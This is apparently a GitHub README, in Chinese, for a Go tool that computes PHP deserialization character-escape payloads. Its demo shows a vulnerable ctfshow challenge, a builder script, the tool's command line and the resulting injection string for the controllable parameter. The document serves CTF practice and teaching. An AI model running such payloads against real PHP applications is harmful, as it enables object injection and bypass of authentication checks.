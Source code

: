 # php_unserialize_character_escape

![Language](https://img.shields.io/badge/language-golang-blue.svg)

写着玩的半成品，目标是辅助计算php反序列化字符逃逸题目的小小tool，目前仅支持字符增多的情况，后面有空再研究研究后续咋写，有用的话求个star

php反序列化字符逃逸介绍 https://xz.aliyun.com/t/9213

## Usage

```
> go run main.go --help
Usage of main.exe:
  -dst string
        替换后的字符串
  -input string
        base64编码的目标序列化流
  -src string
        被替换的字符串
```
## Demo

### 例题：ctfshow-web1_此夜圆 （字符增多）

```php
<?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
	{
			if($this->password==='yu22x')
			{
				include('flag.php');
				echo $flag;	
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```

这里简单构造一个序列化流

```php
<?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
	{
			if($this->password==='yu22x')
			{
				echo "flag_success";
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname='$$$';
echo base64_encode(serialize(new a($uname,"yu22x")));
?>

```

给可控点写上`$$$`，然后将序列化流base64编码，连着字符替换的原字符和替换后字符传入命令行参数

![](static/1.png)

```
> go run main.go --input TzoxOiJhIjoyOntzOjU6InVuYW1lIjtzOjM6IiQkJCI7czo4OiJwYXNzd29yZCI7czo1OiJ5dTIyeCI7fQ== --src Firebasky --dst Firebaskyup
2024/12/06 20:45:06 INFO [+] 目标序列化流： O:1:"a":2:{s:5:"uname";s:3:"$$$";s:8:"password";s:5:"yu22x";}
2024/12/06 20:45:06 INFO [+] 字符增多的情况
2024/12/06 20:45:06 INFO [+] 替换的字符长度差值为： 2
2024/12/06 20:45:06 INFO [+] 需要 15 组 Firebasky, 差 0 补齐
2024/12/06 20:45:06 INFO [+] 可控点需要传入的： FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky%22%3Bs%3A8%3A%22password%22%3Bs%3A5%3A%22yu22x%22%3B%7D
```

然后将输出复制到可控点传入

![](static/2.png)

即可成功辅助构造